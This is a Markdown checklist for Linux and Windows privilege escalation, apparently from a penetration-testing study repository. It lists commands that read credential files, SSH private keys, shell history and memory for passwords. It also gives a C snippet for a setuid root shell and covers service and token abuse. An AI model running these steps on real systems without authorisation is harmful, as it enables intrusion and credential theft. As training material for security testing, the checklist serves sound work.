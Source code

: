 # Privilege Escalation Methodology👽
##  Few words before going on
"**Slow is smooth, and smooth is fast**"
Be methodical in what you do or you will get lost. 

Now we are inside the system as a low-privileged user, to obtain an elevated privileged user account we have to find a vector we can use to climb the privileges ladder.

#### Mind map & checklist
We think that the mind map provived by Conda (please, go support him on [his](https://www.youtube.com/channel/UCzK5oAENyQJcnH5SvEquo8A) YouTube channel) is very useful and straightforward. So, we've decided to translate it into this checklist. While the mind map gives you an immediate overview of what you should do, the checklist gives you the possibility to visualize what you already have done.
You can find the mind map created with Obsidian by us here  ![[linux_privesc_mindmap.png]] and the Conda's original one (That is better in term of design) [here](https://github.com/C0nd4/OSCP-Priv-Esc). Go check his playlist on YouTube!, you can find the link under the PrivEsc section inside README.MD ([[README#PrivEsc]])

_**Be aware**: our translation does not completely reflect the Conda's mind map as we added/modified some parts._

## General thoughts to bear in mind
If you are still trying to gain an initial foothold but you can access local files, try to look for firewall's rules. So you won't become mad to figure it out by "brute forcing" the ports for a reverse shell 🙃
## Linux
### Credential Access
- [ ] Try known passwords
- [ ] Search creds from config files (Try different word other the PASSWORD, e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
> grep \--color\=auto \-rnw '/' \-ie "PASSWORD" \--color\=always 2> /dev/null
> find . \-type f \-exec grep \-i \-I "PASSWORD" {} /dev/null
> locate password | more
- [ ] Search creds from local DBs
- [ ] Search creds from bash history:
> history
> cat ~/.bash_history
- [ ] Search creds from memory:
> strings /dev/mem \-n10 | grep \-i PASS
- [ ] SSH keys:
> cat ~/.ssh/id_rsa
> ls ~/.ssh/\*
> find / -name authorized_keys 2> /dev/null
> find / -name id_rsa 2> /dev/null
- [ ] Sudo privileges:
> sudo -l
- [ ] Group:
> id
> groups

### Exploit
- [ ] Services running on localhost are vulnerable?
> ps aux
> ps aux | grep root
- [ ] Kernel version,  is it vulnerable?
> uname -a
> (cat /proc/version || uname -a ) 2>/dev/null
> lsb_release -a 2>/dev/null
- [ ] Binary file versions, vulnerable?
> sudo -V

### Misconfiguration
- [ ] Cron job -> check for write permissions on the following files:
> /etc/init.d
> /etc/cron\*
> /etc/crontab
> /etc/cron.allow
> /etc/cron.d 
> /etc/cron.deny
> /etc/cron.daily
> /etc/cron.hourly
> /etc/cron.monthly
> /etc/cron.weekly
> /etc/sudoers
> /etc/exports
> /etc/anacrontab
> /var/spool/cron
> /var/spool/cron/crontabs/root
> crontab \-l
> ls \-alh /var/spool/cron;
> ls \-al /etc/ | grep cron
> ls \-al /etc/cron\*
> cat /etc/cron\*
> cat /etc/at.allow
> cat /etc/at.deny
> cat /etc/cron.allow
> cat /etc/cron.deny\*
- [ ] Writeable cron job dependecy (File, Python library, etc)
- [ ] Find SUID:
> find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
> find / -uid 0 -perm -4000 -type f 2>/dev/null
- [ ] Check SUID on [GTFOBins](https://gtfobins.github.io/)
- [ ] Create SUID:
```bash
print 'int main(void){\\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
- [ ] SGID:
> find / -perm -g=s -type f 2>/dev/null
> find / -perm +2000 -user root -type f -print
- [ ] Interesting capabilities on binary
- [ ] Any accessible sensitive file?
	- [ ] /etc/passwd
	- [ ] /etc/shadow
	- [ ] /etc/sudoers
	- [ ] Configuration files
	- [ ] /root/.ssh/id_rsa
	- [ ] entire root folder
	- [ ] Check env info
	 > (env || set) 2>/dev/null
	 > echo $PATH
- [ ] Writeable PATH
	- [ ] Root $PATH writeable
	- [ ] Directory in PATH writeable
- [ ] LD_PRELOAD set in /etc/sudoers
- [ ] Nothing yet? Google-Fu the web to look for other checklists
### Automation
If you are running out of time, automation could save you, but bear in mind that it's not stealthy at all (not this time).
This is a non comprehensive list of linux privesc automated script, to gain a better result try run different scripts on the same target:
- [ ] [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) (Linux local privilege Escalation Awesome Script)
- [ ] [LinEnum](https://github.com/rebootuser/LinEnum)
- [ ] [LES2](https://github.com/jondonas/linux-exploit-suggester-2) (Linux Exploit Suggester 2)
- [ ] [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [ ] [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)	
## Windows
### Credential Access
- [ ] Try known passwords
- [ ] Creds from config files (Try different word other the PASSWORD, e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
- [ ] Creds from local DBs
- [ ] Creds from  **cmdkey**:
> cmdkey /list
- [ ] Creds from Registry:
- [ ] Creds from Unattend or Sysprep Files
- [ ] Creds from Log Files
### User
- [ ] General users enum
> whoami /all
>  net users %username%
>  net users
>  Get-WmiObject -Class Win32\_UserAccount
>  Get-LocalUser | ft Name,Enabled,LastLogon
>  Get-ChildItem C:\\Users -Force | select Name
>  Get-LocalGroupMember Administrators | ft Name, PrincipalSource
- [ ] General groups enum
> net localgroup
> net localgroup Administrators
- [ ] Check if current user has these tokens:
> SeImpersonatePrivilege
> SeAssignPrimaryPrivilege
> SeTcbPrivilege
> SeBackupPrivilege
> SeRestorePrivilege
> SeCreateTokenPrivilege
> SeLoadDriverPrivilege
> SeTakeOwnershipPrivilege
> SeDebugPrivilege
### Exploit
- [ ] Services running on localhost
- [ ] Kernel version
- [ ] Software versions
- [ ] Service versions
### Misconfiguration
- [ ] Services
	- [ ] Unquoted Service Path
	- [ ] Change service binary location
	- [ ] Overwrite service binary
	- [ ] DLL Hijacking
- [ ] AlwaysInstallElevated set in Registry
- [ ] Scheduled tasks
	- [ ] Executable file writeable
	- [ ] Dependency writeable
- [ ] Sensitive files readable
	- [ ] SAM Hive
	- [ ] SYSTEM Hive